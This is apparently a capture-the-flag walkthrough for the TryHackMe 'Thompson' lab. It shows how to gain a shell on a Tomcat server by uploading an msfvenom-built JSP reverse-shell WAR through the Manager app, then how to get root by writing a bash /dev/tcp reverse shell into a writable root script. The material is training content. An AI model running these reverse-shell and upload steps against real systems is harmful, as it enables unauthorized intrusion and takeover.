 T0fuHasuu
---

# **Thompson Walkthrough**  
[**Source**](https://medium.com/@chandrakanthr899/thompson-tryhackme-walkthrough-1003d6e8ad83)

![Chill](https://media.tenor.com/EgwiQ8PGbXMAAAAM/machine-gun-sylvester-stallone.gif)  

---

### **1. Scan for Open Ports with Nmap**
Run the following command to scan the target IP:  
```bash
nmap <IP>
```

- **Results:**  
  - Port **22**: SSH  
  - Port **8009**: AJP13  
  - Port **8080**: HTTP  

- Let's enter **8080** with :
    ```bash
    http://<IP>:8080
    ```
    - Enter the **Manager app** on the screen
    - We can inject here with listener in War file From [Here](https://www.baeldung.com/tomcat-deploy-war) 

---

### **2. Create self War injection**
Create by :
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=4444 -f war > shell.war
```

### **3. Inject Shell listener**
Start By Upload the **shell.war** file in the **Manager App** section
> Set **listener** :
```bash
nc -lvp 4444
```
> View What's in **Jack** folder :
```bash
ls -al home/jack
```
  - You will see **user.txt** file
  - View user.txt : `cat home/jack/user.txt`

   **One Flag Down**

### **4. Enter Root Privilage**
- When Look at the files in Jack folder again :
  - You will see that **id.sh** is in root
  - It is **overwrittable**
- Put listener in that root **id.sh** by : 
```bash
echo 'bash -i >& dev/tcp/<IP>/1234 0>&1' > id.sh
```
- Run the listener by : `nc -lvp 1234`
- We got into Root!!!
 
### **5. Search for root.txt**

Get the Root Flag : 
```bash
cat root/root.txt
```

**Done . . .**

---

![Bye](https://media2.giphy.com/media/h2OLfcSKKthRK/giphy.gif?w=144)

---

# I'll see yall next time